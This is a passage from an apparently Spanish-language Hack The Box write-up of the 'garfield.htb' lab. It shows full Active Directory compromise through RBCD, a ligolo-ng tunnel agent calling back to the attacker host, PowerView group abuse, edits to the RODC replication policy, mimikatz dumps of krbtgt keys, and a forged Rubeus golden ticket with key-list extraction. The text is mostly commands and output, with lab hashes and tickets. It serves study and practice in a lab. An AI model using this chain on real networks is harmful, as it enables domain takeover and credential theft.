Podemos utilizar la sesión de `powershell` actual para cambiar la contraseña de `l.wilson_adm`

``` powershell
PS C:\Windows\system32> Set-ADAccountPassword -Identity l.wilson_adm -NewPassword (ConvertTo-SecureString 'Password123!' -AsPlainText -Force) -Reset
```

Validaremos las nuevas credenciales de `l.wilson_adm` con `netexec`

``` bash
nxc smb DC01.garfield.htb -u 'l.wilson_adm' -p 'Password123!' 
SMB         10.129.13.177   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:garfield.htb) (signing:True) (SMBv1:False)
SMB         10.129.13.177   445    DC01             [+] garfield.htb\l.wilson_adm:Password123! 
```


## Shell as `l.wilson_adm`

La cuenta `l.wilson_adm` es miembro del grupo `Remote Management Users`, por lo que en teoría tendría la capacidad de conectarse al `DC` usando el protocolo `WinRM`


{: .align-center}

> Recomiendo la herramienta `evil-winrm-py` para este propósito por sobre la versión escrita en `Ruby`, la subida/descarga de archivos es más rápida.
{: .notice--warning}

``` bash
evil-winrm-py -i DC01.garfield.htb -u l.wilson_adm -p 'Password123!' 
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.5.0

[*] Connecting to 'DC01.garfield.htb:5985' as 'l.wilson_adm'
evil-winrm-py PS C:\Users\l.wilson_adm\Documents> type ../Desktop/user.txt
214...
```
<br>


# Escalada de Privilegios
---
## Abusing AD ACL - `WriteAccountRestrictions` Rights

La cuenta `l.wilson_adm` posee derechos `WriteAccountRestrictions` sobre la cuenta de equipo `RODC01$`.

> Este derecho es potencialmente peligroso debido a que permite modificar el atributo `msDS-AllowedToActOnBehalfOfOtherIdentity`, más información técnica en [`Microsoft Learn`](https://learn.microsoft.com/en-us/windows/win32/adschema/r-user-account-restrictions#windows-server-2012).
{: .notice--info}

Este derecho puede otorgar a la cuenta `l.wilson_adm` configurar un ataque de Delegación `Kerberos` Basada en Recursos (`RBCD`), y así obtener control total sobre el equipo


{: .align-center}

> Una gran consideración a la hora de llevar a cabo este tipo de ataque es el atributo `MachineAccountQuota`, el cual por defecto su valor es `10`. 
> 
> Esto significa que cada usuario puede crear `10` cuentas de equipo en el dominio, si por x motivo su valor fuera `0`, tendríamos que cambiar un poco el enfoque del ataque ([`TheHackerRecipes`](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd#rbcd-on-spn-less-users)).
{: .notice--warning}

``` bash
nxc ldap DC01.garfield.htb -u 'l.wilson_adm' -p 'Password123!' -M maq
LDAP        10.129.13.177   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:garfield.htb) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.13.177   389    DC01             [+] garfield.htb\l.wilson_adm:Password123! 
MAQ         10.129.13.177   389    DC01             [*] Getting the MachineAccountQuota
MAQ         10.129.13.177   389    DC01             MachineAccountQuota: 10
```

Una vez verificado, podremos comenzar el ataque. Crearemos una nueva cuenta de equipo dentro del dominio.

> Para esto podemos usar `PowerView.ps1` dentro de la máquina como herramientas desde Linux, por ejemplo `bloodyAD`.
{: .notice--warning}

``` bash
bloodyAD --host DC01.garfield.htb -d garfield.htb -u 'l.wilson_adm' -p 'Password123!' add computer 'incommatose' 'Password123!'
[+] incommatose$ created
```

Posteriormente, procederemos configurando la delegación a través del atributo `msDS-AllowedToActOnBehalfOfOtherIdentity` en el servicio `RODC01$`

``` bash
bloodyAD --host DC01.garfield.htb -d garfield.htb -u 'l.wilson_adm' -p 'Password123!' add rbcd 'RODC01$' 'incommatose$' 
[!] No security descriptor has been returned, a new one will be created
[+] incommatose$ can now impersonate users on RODC01$ via S4U2Proxy
```

Ahora desde Linux (o `powershell` usando herramientas como `Rubeus`), podremos solicitar un ticket de servicio en nombre de cualquier usuario local del equipo (incluyendo `Administrator`) usando `S4U2Self`/`S4U2Proxy`.

> Si obtenemos el error `KRB_AP_ERR_SKEW(Clock skew too great)`, es porque necesitamos sincronizar nuestro reloj con el DC. Para esto podemos usar herramientas como `faketime` y/o `ntpdate`.
{: .notice--danger}

``` bash
faketime "$(ntpdate -q DC01.garfield.htb | cut -d ' ' -f 1,2)" getST.py -spn CIFS/RODC01.garfield.htb -impersonate Administrator -dc-ip DC01.garfield.htb garfield.htb/'incommatose$':'Password123!' 
Impacket v0.13.0.dev0+20250717.182627.84ebce48 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@CIFS_RODC01.garfield.htb@GARFIELD.HTB.ccache
```

### Kerberos Client Setup

Dado que necesitamos autenticarnos usando el ticket, debemos configurar la variable de entorno `KRB5CCNAME`

> Opcionalmente podemos configurar el archivo de configuración del cliente `kerberos`, usando la variable de entorno `KRB5_CONFIG`, con su valor generado por un archivo resultado del comando: `nxc smb DC01.garfield.htb --generate-krb5-file ./krb5.conf`
{: .notice--info}

``` bash
KRB5CCNAME="$(pwd)/Administrator@CIFS_RODC01.garfield.htb@GARFIELD.HTB.ccache"

klist    
Ticket cache: FILE:/workspace/labs/machines/garfield/content/Administrator@CIFS_RODC01.garfield.htb@GARFIELD.HTB.ccache
Default principal: Administrator@garfield.htb

Valid starting       Expires              Service principal
04/11/2026 21:15:43  04/12/2026 07:15:40  CIFS/RODC01.garfield.htb@GARFIELD.HTB
	renew until 04/12/2026 21:15:39
```


## Tunneling

Dado que el Controlador de Dominio `RODC01` solo es accesible internamente, podemos configurar un túnel para alcanzarlo desde nuestra máquina.

> En este caso he utilizado la herramienta [`ligolo-ng`](https://github.com/nicocha30/ligolo-ng), solamente por comodidad, perfectamente puedes utilizar otras como `chisel`.
{: .notice--warning}

``` bash
evil-winrm-py PS C:\ProgramData> ipconfig

Windows IP Configuration


Ethernet adapter vEthernet (Switch01):

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::c4ff:5747:1d3c:fba0%9
   IPv4 Address. . . . . . . . . . . : 192.168.100.1
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 

Ethernet adapter Ethernet0 3:

   Connection-specific DNS Suffix  . : .htb
   IPv6 Address. . . . . . . . . . . : dead:beef::96d5:c333:b31c:65ed
   Link-local IPv6 Address . . . . . : fe80::23d3:d43:57be:f21e%7
   IPv4 Address. . . . . . . . . . . : 10.129.13.177
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb0:a3d9%7
                                       10.129.0.1
```

La red a la que queremos acceder es la `192.168.100.0/24`, procederemos a encontrar la dirección IP de `RODC01` (aunque predecible)

``` bash
evil-winrm-py PS C:\ProgramData> nslookup RODC01
Server:  localhost
Address:  127.0.0.1

Name:    RODC01.garfield.htb
Address:  192.168.100.2
```

Desde nuestra máquina atacante iniciaremos el binario `proxy` de `ligolo`

``` bash
sudo ./proxy -selfcert
```

Desde la máquina víctima, iniciaremos el binario `agent.exe` para conectarnos a nuestro servidor

``` bash
evil-winrm-py PS C:\ProgramData> upload .\agent.exe .
evil-winrm-py PS C:\ProgramData> .\agent.exe -connect 10.10.14.38:11601 -ignore-cert
```

En nuestro servidor se iniciará una nueva sesión

``` bash
INFO[0449] Agent joined.                                 id=00155d0bdd00 name="GARFIELD\\l.wilson_adm@DC01" remote="10.129.13.177:57293"
ligolo-ng » 
ligolo-ng » session
? Specify a session : 1 - GARFIELD\l.wilson_adm@DC01 - 10.129.13.177:57293 - 00155d0bdd00
```

Iniciaremos el túnel con el comando `tunnel_start` o `start`, esto iniciará una nueva interfaz de red.

> En mi caso tengo que usar una interfaz que se llame `utunX`, porque así es MacOS.
{: .notice--info}

``` bash
[Agent : GARFIELD\l.wilson_adm@DC01] » tunnel_start --tun utun10
INFO[0482] Starting tunnel to GARFIELD\l.wilson_adm@DC01 (00155d0bdd00)
```

El siguiente paso es configurar el enrutamiento de la red, podemos basarnos en la guía de configuración de `ligolo` en [`docs.ligolo.ng`](https://docs.ligolo.ng/Quickstart/#setup-routing).

Para verificar la conectividad, podemos hacer un `ping` hacia una dirección IP de la red interna

``` bash
ping -c1 192.168.100.2
PING 192.168.100.2 (192.168.100.2): 56 data bytes
64 bytes from 192.168.100.2: icmp_seq=0 ttl=64 time=647.813 ms

--- 192.168.100.2 ping statistics ---
1 packets transmitted, 1 packets received, 0.0% packet loss
round-trip min/avg/max/stddev = 647.813/647.813/647.813/0.000 ms
```

Ahora nos queda agregar una nueva entrada en nuestro archivo `/etc/hosts` para aplicar correctamente la resolución `DNS`

``` bash
echo "192.168.100.2 RODC01.garfield.htb RODC01" | sudo tee -a /etc/hosts 
192.168.100.2 RODC01.garfield.htb RODC01
```


## Shell as `Administrator` on `RODC01$`

Una vez que tengamos configurado el túnel correctamente podremos conectarnos al Controlador de Dominio `RODC01`.

> Una alternativa que me funcionó bastante bien es usar la herramienta [`winrmexec`](https://github.com/ozelis/winrmexec), por sobre otras herramientas clásicas como `wmiexec`.
{: .notice--warning}

``` bash
python3 evil_winrmexec.py garfield.htb/Administrator@RODC01.garfield.htb -k -no-pass -dc-ip DC01.garfield.htb

PS C:\Users\Administrator.GARFIELD\Documents> whoami
garfield\administrator

# Alternativa con wmiexec
wmiexec.py -k -no-pass 'garfield.htb/Administrator@RODC01.garfield.htb'
```


## Abusing AD ACL  - `AddSelf` Rights

La cuenta `l.wilson_adm` es miembro de un grupo llamado `Tier 1`, el cual posee el derechos `AddSelf` sobre el grupo `RODC Administrators`. Esto le permite añadirse a sí mismo para formar parte del grupo


{: .align-center}

Podemos utilizar una sesión de `Powershell` importando la herramienta `PowerView.ps1`, así como también usarla desde `Linux` en su versión `.py`

``` powershell
evil-winrm-py PS C:\ProgramData> upload PowerView.ps1 .
evil-winrm-py PS C:\ProgramData> Import-Module .\PowerView.ps1
evil-winrm-py PS C:\ProgramData> Add-DomainGroupMember -Identity 'RODC Administrators' -Members 'l.wilson_adm'
```

Podemos verificar que se hay añadido a `l.wilson` al grupo usando una variante del mismo comando anterior

``` powershell
evil-winrm-py PS C:\ProgramData> Get-DomainGroupMember -Identity 'RODC Administrators'


GroupDomain             : garfield.htb
GroupName               : RODC Administrators
GroupDistinguishedName  : CN=RODC Administrators,CN=Users,DC=garfield,DC=htb
MemberDomain            : garfield.htb
MemberName              : l.wilson_adm
MemberDistinguishedName : CN=Liz Wilson ADM,CN=Users,DC=garfield,DC=htb
MemberObjectClass       : user
MemberSID               : S-1-5-21-2502726253-3859040611-225969357-3107
```


## RODC Golden Ticket + Kerberos Key List

> Un Controlador de Dominio de Solo Lectura (`RODC`), introducido en `Windows Server 2008`, es un servidor de Active Directory que aloja una copia de solo lectura de la base de datos.
>
> Se utiliza principalmente en sucursales o lugares con baja seguridad física, ya que no permite cambios locales y sólo almacena credenciales de usuario específicas.
{: .notice--info}

Con control sobre un objeto de equipo `RODC` en `Active Directory`, existe una ruta para comprometer completamente el dominio, un ataque `RODC Golden Ticket`. 

### Understanding Attacks

Es posible modificar la `Password Replication Policy` para escalar privilegios, concretamente los atributos `msDS-NeverRevealGroup` y `msDS-RevealOnDemandGroup` del Controlador de Dominio `Read-Only`. 

- `msDS-RevealOnDemandGroup`: Contiene los `SIDs` de usuarios/grupos a los que se les permite replicar sus contraseñas al `RODC`, funcionando como una "lista blanca".

- `msDS-NeverRevealGroup`: Por el contrario, este atributo contiene los `SIDs` de los usuarios/grupos a los que se les prohíbe replicar sus contraseñas, como una "lista negra".

Una vez hayamos modificado la política (`PRP`), podremos forjar un `Golden Ticket` usando la clave de la cuenta `krbtgt_XXXX`y posteriormente llevar a cabo un ataque [`Kerberos Key List`](https://www.thehacker.recipes/ad/movement/credentials/dumping/kerberos-key-list), el cual nos permitirá listar las claves de un usuario privilegiado del dominio (como el hash `NT` de la cuenta  `Administrator` del `DC`).

> Un Controlador de Dominio `Read-Only` administra la autenticación usando su propia copia del servicio `krbtgt`, llamado [`krbtgt_XXXX`](https://www.thehacker.recipes/ad/movement/builtins/rodc#authentication-with-an-rodc), donde `XXXX` corresponde al `Key Version Number`.
> 
> Como en un ataque `Golden Ticket`, necesitaremos extraer el hash de esta cuenta para poder forjar `TGTs`.
{: .notice--info}

Este ataque consiste en utilizar un `RODC Golden Ticket` para solicitar un `TGS` de cualquier usuario del dominio enviando un paquete `TGS-REQ` al `KDC`, el cual contiene una `padata` (`Pre-Authentication Data`) de tipo [`161`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/ae60c948-fda8-45c2-b1d1-a71b484dd1f7), el cual corresponde a `KERB-KEY-LIST-REQ`. 

Si la cuenta objetivo está permitida dentro de la `PRP`, el `KDC` responderá con sus claves de cifrado

### Setup

> El siguiente post de [`thehackerrecipes`](https://thehacker.recipes/a-d/movement/dacl/rights-on-rodc-object) explica los pasos para preparar y explotar el ataque `RODC Golden Ticket`.
{: .notice--info}

Prepararemos la configuración necesaria para el ataque, comenzaremos con el atributo `msDS-RevealOnDemandGroup` sobre el `RODC`, para añadir a `Administrator` y al grupo `Allowed RODC Password Replication Group` (el cual está permitido por defecto)

``` powershell
evil-winrm-py -i DC01.garfield.htb -u l.wilson_adm -p 'Password123!'
evil-winrm-py PS C:\ProgramData> cd $env:allusersprofile
evil-winrm-py PS C:\ProgramData> Import-Module .\PowerView.ps1

evil-winrm-py PS C:\ProgramData> Set-DomainObject -Identity RODC01$ -Set @{'msDS-RevealOnDemandGroup'=@('CN=Allowed RODC Password Replication Group,CN=Users,DC=garfield,DC=htb','CN=Administrator,CN=Users,DC=garfield,DC=htb')}
```

> Si estamos en una sesión usando, debemos volver a autenticarnos una vez hayamos añadido a la cuenta `l.wilson_adm` dentro del grupo `RODC Administrators`, de lo contrario obtendrás el error `INSUFF_ACCESS_RIGHTS` en el caso .
{: .notice--danger}

Ahora limpiaremos el atributo `msDS-NeverRevealGroup` para que ningún usuario/grupo aparezca en él

``` powershell
evil-winrm-py PS C:\ProgramData> Set-DomainObject -Identity RODC01$ -Clear 'msDS-NeverRevealGroup'
```

### Verify

El siguiente comando nos permite enumerar los atributos relevantes para el ataque, debemos ver al usuario `Administrator` en `msDS-RevealOnDemandGroup`.

Además de que no debe listar el atributo `msDS-NeverRevealGroup`, debido a que debe estar vacío

``` bash
evil-winrm-py PS C:\ProgramData> Get-DomainObject "CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb" -Properties msDS-RevealOnDemandGroup, msDS-NeverRevealGroup, msDS-RevealedList | Format-List


msds-revealedlist        : {S:12:lmPwdHistory:CN=krbtgt_8245,CN=Users,DC=garfield,DC=htb, 
                           S:23:supplementalCredentials:CN=krbtgt_8245,CN=Users,DC=garfield,DC=htb, 
                           S:12:ntPwdHistory:CN=krbtgt_8245,CN=Users,DC=garfield,DC=htb, 
                           S:10:unicodePwd:CN=krbtgt_8245,CN=Users,DC=garfield,DC=htb...}
msds-revealondemandgroup : {CN=Allowed RODC Password Replication Group,CN=Users,DC=garfield,DC=htb, 
                           CN=Administrator,CN=Users,DC=garfield,DC=htb}


```

### Golden Ticket

Para buscar a la cuenta `krbtgt_XXXX` (si es que aún no la miramos desde `BloodHound`), podemos usar el siguiente comando

``` powershell
PS C:\ProgramData> Get-ADObject -Filter {SamAccountName -like "krbtgt_*"} -Properties CN

CN                : krbtgt_8245
DistinguishedName : CN=krbtgt_8245,CN=Users,DC=garfield,DC=htb
Name              : krbtgt_8245
ObjectClass       : user
ObjectGUID        : ec54f85a-536a-4f61-bf17-56c495d0800e
```

Para proceder, subiremos la herramienta `mimikatz.exe`, la cual nos permitirá extraer un valor de clave que corresponde a la cuenta `krbtgt_8245`, la cual necesitamos para el `Golden Ticket`

``` bash
PS C:\Users\Administrator.GARFIELD\Documents> cd $env:ALLUSERSPROFILE
PS C:\ProgramData> !upload mimikatz.exe # o !upload (depende de la herramienta)
PS C:\Programdata> .\mimikatz.exe "privilege::debug" "lsadump::lsa /inject /name:krbtgt_8245" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # lsadump::lsa /inject /name:krbtgt_8245
Domain : GARFIELD / S-1-5-21-2502726253-3859040611-225969357

RID  : 00000643 (1603)
User : krbtgt_8245

 * Primary
    NTLM : 445aa4221e751da37a10241d962780e2
    LM   : 
  Hash NTLM: 445aa4221e751da37a10241d962780e2
    ntlm- 0: 445aa4221e751da37a10241d962780e2
    lm  - 0: 0ab3d34a182bb016fc4cfd26544a9f16

 * WDigest
    01  6d31d1f92ef6d85f5517944f98bf5753
    02  8c46bd5ddc680291e70800990dbc02e3
    03  9ffbc24f29b9bb3df3c32b76631ff874
    04  6d31d1f92ef6d85f5517944f98bf5753
    05  8c46bd5ddc680291e70800990dbc02e3
    06  8fc97c500bf9c7c4a0d34a497f9c5245
    07  6d31d1f92ef6d85f5517944f98bf5753
    08  c4bac61b7ecb407d358f836d2f4e19c6
    09  c4bac61b7ecb407d358f836d2f4e19c6
    10  d8938c80e1e0c80a2ec1d8b06f42cb31
    11  67f002aa49f4400fa970a53e294f4bee
    12  c4bac61b7ecb407d358f836d2f4e19c6
    13  56062e2db43bc0069deb86de87509ca6
    14  67f002aa49f4400fa970a53e294f4bee
    15  7250fcfc09d9cb93345c0c1393e19e52
    16  7250fcfc09d9cb93345c0c1393e19e52
    17  04b30cd8b5381d4b8458b0c996503a91
    18  b48bda9ef98982d5ee33766a74880e01
    19  bb365cf4f0bcdadf35b6a9b04c58257b
    20  85addbd6d603cca1b500f2da02b205d0
    21  b6186618611e202aae4141716e6603f5
    22  b6186618611e202aae4141716e6603f5
    23  f3f6c9408db132bf8e59413b7b40bb16
    24  0acf88cc5cb3b35888708ebefe658b6f
    25  0acf88cc5cb3b35888708ebefe658b6f
    26  08b8941632a5017e7178a3761dfaf7fb
    27  c1b2fd89d0dafb5f9e18147042bdc433
    28  712f0b6ed3b7eb7f6f135a1e298c4e09
    29  bf8d51270f7f657079bb9744446d70cb

 * Kerberos
    Default Salt : GARFIELD.HTBkrbtgt_8245
    Credentials
      des_cbc_md5       : d540fe6192b9ecfe

 * Kerberos-Newer-Keys
    Default Salt : GARFIELD.HTBkrbtgt_8245
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240
      aes128_hmac       (4096) : 124c0fd09f5fa4efca8d9f1da91369e5
      des_cbc_md5       (4096) : d540fe6192b9ecfe

 * NTLM-Strong-NTOWF
    Random Value : f4b51c2c0d006172304e31dbc6e0de6b

mimikatz(commandline) # exit
Bye!
```

Debemos extraer el valor del campo `Credentials` > `aes256_hmac`, esta será la clave `AES-256` que necesitamos para hacer funcionar el ataque, además de algunos datos fácilmente recolectables del dominio.

Con todo preparado, forjaremos un `Golden Ticket` usando el siguiente comando de `Rubeus`, gracias a la flag `/outfile` podremos pasar el ticket desde un archivo

> Considera utilizar desde la versión `2.3.3` para llevar a cabo el ataque.
{: .notice--danger}

``` bash
PS C:\Programdata> .\Rubeus.exe golden /rodcNumber:8245 /flags:forwardable,renewable,enc_pa_rep /nowrap /outfile:ticket.kirbi /aes256:d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240 /user:Administrator /id:500 /domain:garfield.htb /sid:S-1-5-21-2502726253-3859040611-225969357

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3 

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : GARFIELD.HTB (GARFIELD)
[*] SID            : S-1-5-21-2502726253-3859040611-225969357
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : D6C93CBE006372ADB8403630F9E86594F52C8105A52F9B21FEF62E9C7A75E240
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : D6C93CBE006372ADB8403630F9E86594F52C8105A52F9B21FEF62E9C7A75E240
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : krbtgt
[*] Target         : garfield.htb

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator@garfield.htb'

[*] AuthTime       : 4/4/2026 11:42:06 PM
[*] StartTime      : 4/4/2026 11:42:06 PM
[*] EndTime        : 4/5/2026 9:42:06 AM
[*] RenewTill      : 4/11/2026 11:42:06 PM

[*] base64(ticket.kirbi):

      doIFkjCCBY6gAwIBBaEDAgEWooIEfzCCBHthggR3MIIEc6ADAgEFoQ4bDEdBUkZJRUxELkhUQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMZ2FyZmllbGQuaHRio4IENzCCBDOgAwIBEqEGAgQgNQAAooIEIgSCBB76J1Ozk+l2W54cJ7z0Kq9zWdh8frwtboGeXPWgkS6tr6c8i6VnvATWWmL1j0W7pAV2P3apz8BcqNEkHn1o2opvDc352rJctwBqTm9849y8TeBMQdEK0UJuJxRMJNbCDB97J1s5zNN2kxX3Hwu2FccsSMCepL7QujVRoZLQYIJMU2hUbiyfPAcM+dhQ3GZKpyqv1d+cb3VofEJUdYj2QbJSJCP7Ypm0vqhp+sSnN/H36v98v6JfE+onOLXTdimp86bGWW51Gnaa/fV/8MJ7asap1meX1bfgjOSzDUmbSqW8xpKBv1QdfDpgOuOZUipteWNtqODayPI5bBBNp8al2SIOr85TTD7VHi++BH37kDSltv7IhklOcw8vILWAD0g9UNGzaMmOgN0x82mG3ral6RmYkh7/rVoCtESPYxHnrHZXURMLaLuB2JKdrak80C0Qmf6XNqnbBeE0aLgdKYJhYkAvI02/TJckI/+df8S3/AFFx43jJp+4pvoTNJ4rsvmZhygew8jpxiv7TIwGPRJnY5g56Fe/HEvVEoC2uumTnPOWJV07cGcOzDaH7FpjG3yzPfHeOylqVTWg2VE2c8Q9VrGVMDeo4ge8yrk4NO0uiLiinrkJzT9LpVsQBj+BeGUjyKZXrgnd3df4W9K0xy/Kjlg8RVTuyMQKHf/Id1mYdIVFm9uvUeL6FuzDq6oGSIYKhkI1pa10HgscrNzF/W8RWHFKYhxdBlmVcXdwhxxx71h32+QJAkIfvpaHJprUKJ/ExzfX6a2Z10FpQK02Ca5r5NZJY74i5LIIeW+SJy9cNXxRUIHfz7VT3HIq26u5ZoC9cYLFOWV+Cx7gd77d7EBxAf16dFcHv/qIreXe5VAhCALNvVdzBcILm7ectwSa2E/et1PecOb2zA40drxv904iLIxjXCr3IMyBl5yVvhjcb3suQBeDaoINAuYz99JzE1585dNP18tGIGoB4MJhqj6i5x7UGSuH47KxwKDBSpp6g4PH5v3z0/OwyVUbbdWBcwvoU/6tvaTllRcwe3lqCFGqNew4oA8j1EXvKykuRouf3IaevtEFfIaoXGeRgRIeXHFZ7B6DNiD5Tnr1qV3PEJorLSzERhT1T3Xd7AYY2OXiPgrD18UQUtOlk6eh+eiS5mygH/0Zx6kCY+kUYmZYzfgQ1q7T+MqIP5pggX9YTgVpgRS0WqSeJBcEmXsPdt/T0iccn7v3iervLuRWZyN0S49RPpb8kzybFjrT1lNG5JzQAp8vfj4jK2vCNuMvn0/F990eaC5i1ezmhZYq15S2/6g6P3YITlbCmMDHTcSOp4W2KXIZMCRhpo7AELPmOFOzAFbDruxuwakYEGHx29WNyDfotXG964MoEQYRQUWbPRZKuKuVcOO5JMBhPAW2H9rWKYzzo4H+MIH7oAMCAQCigfMEgfB9ge0wgeqggecwgeQwgeGgKzApoAMCARKhIgQgXFyA1PYVtyrm/PtjhII3V4GxjF+GiiGJgMIXF5d9gF+hDhsMR0FSRklFTEQuSFRCohowGKADAgEBoREwDxsNQWRtaW5pc3RyYXRvcqMHAwUAQIEAAKQRGA8yMDI2MDQwNTA2NDIwNlqlERgPMjAyNjA0MDUwNjQyMDZaphEYDzIwMjYwNDA1MTY0MjA2WqcRGA8yMDI2MDQxMjA2NDIwNlqoDhsMR0FSRklFTEQuSFRCqSEwH6ADAgECoRgwFhsGa3JidGd0GwxnYXJmaWVsZC5odGI=


[*] Ticket written to ticket_2026_04_05_06_42_06_Administrator_to_krbtgt@GARFIELD.HTB.kirbi
```

### Kerberos Key List

Usaremos este `Golden Ticket` para solicitar un `TGT` a través de una solicitud `TGS-REQ`, que está dirigida al servicio `krbtgt`, la cual debería mostrar el hash `NT` del usuario `Administrator`

``` bash
PS C:\Programdata> .\Rubeus.exe asktgs /keyList /ticket:ticket_2026_04_06_04_56_13_Administrator_to_krbtgt@GARFIELD.HTB.kirbi /service:krbtgt/garfield.htb /dc:DC01.garfield.htb

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.3 

[*] Action: Ask TGS

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building KeyList TGS-REQ request for: 'Administrator'
[*] Using domain controller: DC01.garfield.htb (10.129.16.209)
[+] TGS request successful!
[*] base64(ticket.kirbi):

      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
      VEI=

  ServiceName              :  krbtgt/GARFIELD.HTB
